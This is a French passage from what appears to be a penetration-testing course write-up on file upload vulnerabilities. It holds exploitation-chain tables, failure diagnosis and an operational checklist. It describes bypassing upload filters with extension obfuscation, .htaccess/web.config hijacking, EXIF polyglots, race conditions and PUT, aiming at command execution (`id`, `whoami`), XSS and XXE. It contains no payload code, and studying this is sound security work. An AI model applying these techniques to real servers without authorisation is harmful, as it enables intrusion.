1. **Point d'entrée** : validation de contenu basée sur dimensions/magic bytes sans re-compression.
2. **Primitive technique** : injection du payload dans les métadonnées EXIF d'une image structurellement valide.
3. **Déclenchement** : nécessite un second vecteur rendant le fichier interprétable (détournement d'extension via `.htaccess`/`web.config`, ou inclusion via une LFI disponible séparément).
4. **Effet intermédiaire** : le fichier polyglotte est accessible via un chemin interprété comme script.
5. **Aboutissement** : exécution du payload contenu dans les métadonnées EXIF.
6. **Preuve** : résultat de la commande système dans la réponse HTTP.

| Étape | Résultat requis | Comment le vérifier | Si cela échoue |
|---|---|---|---|
| Point d'entrée | Upload accepté malgré une donnée falsifiée (MIME, extension, configuration) | Réponse d'upload sans message de refus, chemin retourné | Tester la couche de validation suivante (2, 2bis, 3) |
| Primitive technique | Fichier stocké avec un contenu exploitable à un chemin connu | Chemin explicite dans la réponse, ou convention observée | Documenter l'absence de chemin déterminable comme facteur bloquant |
| Déclenchement | Vecteur d'interprétation disponible (extension directement interprétée ou détournée) | Requête GET sur le fichier retourne un comportement différent du contenu brut | Tenter un détournement de configuration (2bis) si l'extension seule ne suffit pas |
| Effet intermédiaire | Fichier accessible publiquement sans restriction d'exécution | Absence d'erreur 403/404 sur le chemin | Vérifier si le répertoire désactive explicitement l'exécution (`RemoveHandler`, `deny all`) |
| Aboutissement | Résultat de commande système obtenu | Sortie de `id`/`whoami` dans la réponse | Tester une fonction d'exécution alternative (`shell_exec` si `system` échoue) |
| Preuve | Preuve reproductible, variée sur au moins deux commandes | Capture de deux réponses avec des commandes différentes | Documenter le niveau de preuve atteint (dépôt confirmé vs RCE démontrée) |

---

## 7. Diagnostic des échecs

| Symptôme observé | Causes possibles | Comment les distinguer | Test de diagnostic | Suite logique |
|---|---|---|---|---|
| Upload refusé quelle que soit l'extension testée | Liste blanche stricte en place | Message d'erreur générique plutôt que spécifique à une extension précise | Comparer les messages d'erreur entre plusieurs extensions distinctes | Passer à la validation de contenu (étape 3) plutôt qu'insister sur les extensions |
| Upload accepté mais fichier déposé illisible par requête GET directe | Renommage aléatoire du fichier (UUID/hash), chemin non déterminable | Comparer le nom retourné dans la réponse d'upload avec le nom original fourni | Vérifier si une autre fonctionnalité (liste de fichiers, profil) expose le chemin réel | Documenter le renommage comme contrôle efficace sur ce point précis |
| Fichier `.php` accessible mais code source affiché en clair | Handler non configuré sur cette extension dans ce répertoire précis | Comparer avec une requête sur un fichier `.php` légitime connu de l'application (s'il en existe un dans un autre répertoire) | Vérifier si le même payload fonctionne dans un autre répertoire de l'application | Documenter comme divulgation de code source, pas RCE ; chercher une extension alternative (étape 2) |
| Polyglotte accepté mais aucune exécution possible | Absence de vecteur d'interprétation (pas de `.htaccess` accepté, pas de LFI disponible) | Vérifier séparément si une LFI existe par ailleurs dans l'application | Tester le détournement de configuration (étape 2bis) comme vecteur alternatif | Documenter la primitive de dépôt sans impact démontré |
| Race condition non reproductible | Fenêtre trop étroite pour le volume de requêtes envoyé, ou opération réellement atomique | Augmenter significativement le volume/fréquence de requêtes avant de conclure | Répéter le test avec un outil à contrôle de timing fin (Turbo Intruder) sur un nombre de tentatives nettement supérieur | Si toujours négatif après volume élevé, documenter comme opération atomique robuste |
| `PUT` listé dans `Allow` mais requête refusée | Autorisation applicative distincte de l'activation de la méthode au niveau serveur | Comparer le code de réponse (401/403 vs 404/405) | Tester `PUT` avec une authentification valide si disponible dans le périmètre du test | Documenter la méthode comme activée mais protégée |
| XSS testé mais script non exécuté à l'ouverture du fichier | `Content-Disposition: attachment` forcé, ou fichier servi depuis un domaine séparé | Inspecter les en-têtes de la réponse lors de l'accès direct au fichier | Vérifier la présence de l'en-tête `Content-Disposition` et le domaine de service | Documenter la neutralisation du vecteur XSS comme contrôle efficace |
| XXE testé sans donnée du fichier cible dans la sortie | Résolution d'entités externes désactivée côté parseur, ou document non traité par un parseur XML | Vérifier si le document est seulement stocké ou réellement transformé (miniature, extraction) | Tester un chemin alternatif connu pour forcer l'erreur du parseur (ex. fichier inexistant) et observer le message d'erreur | Si aucun traitement XML n'a lieu, ce vecteur n'est pas applicable pour cette fonctionnalité |

**Principe de diagnostic** : avant de remplacer une technique par une autre, identifier précisément à quelle étape de la chaîne (point d'entrée, primitive, déclenchement, effet intermédiaire, aboutissement) le comportement attendu cesse de se produire, plutôt que de supposer une cause globale.

---

## 8. Vérification de l'exploitation et preuve de l'impact

**Résultat final attendu** selon le vecteur confirmé :

- *RCE* : résultat d'une commande système choisie par le testeur, retourné dans la réponse HTTP d'une requête sur le fichier déposé.
- *XSS* : exécution démontrée d'un script dans le contexte d'origine de l'application (observable en environnement contrôlé).
- *XXE* : contenu d'un fichier système ciblé retourné par le traitement du document uploadé.

**Éléments techniques de confirmation :**

- Pour une RCE : varier la commande injectée (`id`, puis `whoami`, puis `hostname`) et vérifier que la sortie varie en conséquence, excluant un contenu statique.
- Pour un XSS : vérifier que l'exécution dépend bien du fichier déposé et non d'un comportement préexistant de l'application sur une autre ressource.
- Pour un XXE : tester une entité pointant vers un fichier dont le contenu est connu à l'avance, pour confirmer sans ambiguïté la lecture.

**Contrôles pour exclure une explication alternative :**

- Vérifier que le résultat n'est pas reproductible par une requête légitime de l'application.
- Pour une RCE via détournement de configuration (`.htaccess`), confirmer que l'extension triviale utilisée n'était pas déjà interprétée avant le dépôt du fichier de configuration (test de référence sur l'extension avant le dépôt de `.htaccess`).

**Distinction entre niveaux de preuve :**

- **Preuve de dépôt réussi** : fichier accepté à l'upload, chemin connu — ne démontre encore aucun impact.
- **Preuve de contournement de validation** : fichier dangereux accepté malgré un filtre identifié (MIME, extension, contenu) — démontre une faille de validation, pas encore d'impact.
- **Preuve d'impact** : exécution de commande, exécution de script côté navigateur, ou lecture de fichier système confirmée — démontre l'impact réel.

**Limites des observations :**

- Le cours ne détaille pas de méthode d'exfiltration XXE au-delà de la lecture directe par inclusion d'entité dans la réponse ; toute technique d'exfiltration hors bande (OOB XXE) sortirait du périmètre documenté ici.
- La preuve doit rester minimale et proportionnée : exécuter une commande non destructive suffit à démontrer l'impact RCE sans risquer d'effets de bord sur l'environnement cible.

---

## 9. Checklist opérationnelle

**Prérequis**

- [ ] Serveur web cible identifié (Apache/Nginx/IIS), pour orienter le choix entre `.htaccess` et `web.config`.
- [ ] Comportement de référence de l'upload établi (nom conservé/transformé, chemin retourné, répertoire accessible ou non).
- [ ] En-tête `Allow` d'une requête `OPTIONS` vérifié sur le répertoire ou l'endpoint d'upload.

**Reconnaissance**

- [ ] Types de fichiers acceptés par le métier recensés (images uniquement, ou également documents/HTML/SVG).
- [ ] Message d'erreur sur rejet documenté (révèle liste noire vs liste blanche).

**Premiers tests**

- [ ] Extension dangereuse directe testée avec `Content-Type` falsifié.
- [ ] Variantes d'obfuscation de nom testées en cas de refus (casse, extension multiple, encodage, caractères de fin, nettoyage non récursif).
- [ ] Dépôt de `.htaccess`/`web.config` testé si les variantes d'extension échouent.

**Validation des hypothèses**

- [ ] Validation de contenu (dimensions, magic bytes) testée avec un script brut puis un fichier polyglotte EXIF.
- [ ] Fenêtre de race condition testée si une architecture en deux temps est suspectée (volume de requêtes suffisant avant de conclure).
- [ ] Méthode `PUT` testée si listée dans `Allow`.

**Construction de l'exploitation**

- [ ] Chaînage identifié entre primitive de dépôt (polyglotte, extension alternative) et vecteur d'interprétation (détournement de configuration, LFI externe si disponible).
- [ ] Chemin exact du fichier déposé confirmé avant toute tentative d'exécution.

**Vérification de l'impact**

- [ ] Résultat de commande obtenu et varié (au moins deux commandes différentes) pour une RCE.
- [ ] Niveau de preuve atteint explicitement qualifié (dépôt / contournement de validation / impact démontré).
- [ ] Vecteurs sans RCE (XSS, XXE) testés même en cas d'échec des vecteurs RCE, si les formats correspondants sont acceptés.

**Diagnostic si l'exploitation échoue**

- [ ] Étape précise d'échec identifiée dans la chaîne (point d'entrée, primitive, déclenchement, effet intermédiaire, aboutissement).
- [ ] Cause distinguée entre liste blanche stricte, renommage aléatoire, désactivation d'exécution au niveau serveur, ou opération atomique de validation.

---

## 10. Leçons transférables

**Principes de raisonnement réutilisables sur d'autres vulnérabilités :**

- Toujours séparer la question « le dépôt est-il possible ? » de la question « le dépôt est-il exploitable ? » : un contournement de filtre n'est une vulnérabilité à impact que si le comportement serveur en aval le rend exploitable.
- Distinguer explicitement les niveaux de preuve (dépôt réussi / contournement de validation / impact démontré) plutôt que de conclure prématurément à partir d'un seul indice.
- Face à un échec, localiser précisément l'étape de la chaîne où le comportement attendu cesse, plutôt que de changer de technique au hasard.
- Ne jamais considérer une validation côté client comme une protection : seules les validations côté serveur sur le contenu réel comptent.

**Mécanismes techniques propres à cette vulnérabilité, à ne pas généraliser :**

- Les techniques d'obfuscation d'extension (casse, encodage, null byte, nettoyage non récursif) dépendent fortement du serveur web et de sa version ; leur efficacité n'est pas universelle.
- L'exploitation de race conditions dépend d'une architecture spécifique à deux temps (sandbox puis déplacement) qui n'est pas systématique.
- Le principe des fichiers polyglottes via métadonnées EXIF est spécifique aux formats image acceptant des métadonnées (JPEG notamment) et à une validation de contenu limitée à la structure/signature.

**Hypothèses les plus faciles à confondre avec des certitudes :**

- Un upload accepté ne garantit pas une exécution : le traitement serveur en aval (handler configuré ou non) est déterminant.
- Un refus sur l'extension `.php` brute ne garantit pas l'absence de vulnérabilité : de nombreuses variantes alternatives restent à tester.
- Une validation de dimensions réussie ne garantit pas l'absence de payload : c'est précisément le principe du fichier polyglotte.

**Compétences pratiques à maîtriser pour exploiter cette vulnérabilité sans aide :**

- Forger et manipuler des requêtes multipart (nom de fichier, `Content-Type`, boundary) via un proxy d'interception.
- Construire un fichier polyglotte minimal en injectant un payload dans les métadonnées EXIF d'une image valide.
- Mettre en œuvre une attaque par rafale contrôlée en timing pour exploiter une fenêtre de race condition étroite.
- Évaluer systématiquement, pour chaque format de fichier accepté, le traitement serveur en aval (exécution, service direct au navigateur, parsing XML) qui conditionne l'impact réel.
